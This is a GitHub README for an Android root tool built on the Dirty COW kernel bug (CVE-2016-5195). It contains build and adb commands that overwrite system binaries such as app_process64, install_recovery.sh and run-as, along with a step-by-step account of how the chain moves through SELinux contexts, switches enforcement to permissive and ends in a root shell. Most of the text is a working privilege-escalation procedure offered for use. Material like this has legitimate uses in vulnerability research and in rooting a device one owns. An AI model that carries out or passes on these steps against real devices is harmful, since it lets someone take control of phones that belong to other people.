 # CVE-2016-5195
CVE-2016-5195 (dirty cow/dirtycow/dirtyc0w) proof of concept for Android

## Rootter, an exploit tool to root "secure" systems with **unlocked** bootloaders
## Based off of Jcadduono's recowvery project

## Usage:

### Building:
```sh
lunch your_device-eng

make -j5 dirtycow root-app_process64 root-run-as
```

### Running:
```sh
adb push dirtycow /data/local/tmp
adb push root-app_process64 /data/local/tmp
adb push root-run-as /data/local/tmp
adb push install_recovery.sh /data/local/tmp

adb shell

$ cd /data/local/tmp
$ chmod 0777 *
$ ./dirtycow /system/bin/install_recovery.sh install_recovery.sh
$ ./dirtycow /system/bin/app_process64 root-app_process64
"<wait for completion, your phone will look like it's crashing>"
$ exit

adb shell reboot recovery
"<wait for phone to boot up again, your recovery will be reflashed to stock>"

adb shell

$ getenforce
"<it should say Permissive, adjust source and build for your device!>"

$ cd /data/local/tmp
$ ./dirtycow /system/bin/run-as recowvery-run-as

$ run-as su
#
"<play around in your somewhat limited root shell full of possibilities>"
```

## How it works:

dirtycow manages to exploit an old bug in the copy-on-write code of the Linux kernel which can trick the system into running a different ELF executable in another "priveleged" executable's place.  
Don't quote me on that, I haven't researched it any more than I needed to.  

The `install_recovery.sh` script is a shell script which is run by init in the `u:r:install_recovery:s0` selinux domain.  
While this script is intended for replacing the recovery partition image with the OEM original (based on diff of boot partition) if it is damaged, we can abuse it to install our own recovery images.  

The `u:r:install_recovery:s0` is the only context in Android that is able to read and write to the recovery partition. It has access to only a few other items, however.  
It can run binaries in `/system/bin` under its context with limited permissions. (ex. `setenforce` for disabling/enabling selinux, and `sh` for running the `install_recovery.sh` shell script)  

We can't start the install\_recovery service ourselves, it needs to be run by init's service control. The `u:r:system_server:s0` context is capable of starting init services, so that's where root-app_process64 comes in handy.  
`/system/bin/app_process64` is a zygote executable. It brings up the Android framework and maintains it during system use.  

The `u:r:zygote:s0` context that app\_process64 starts in has permissions to transition to the `u:r:system_server:s0` context for when it brings up the system server.  
We can abuse that privelege by hijacking app\_process64 (which is run as root) with dirtycow and then transition to `u:r:system_server:s0` ourselves to start the install\_recovery service as root in the `u:r:install_recovery:s0` domain.  

We can now use dirtycow to replace the `/system/bin/run-as` execution with our own that is perfectly happy to elevate any command to root, as well as start a root shell for you.  
 
You should now be able to start your system in SELinux Permissive mode on every reboot, allowing you to use dirtycow and `run-as` to gain root access (in a shell) whenever you'd like.  

Hope you enjoyed the read, and have fun exploiting!

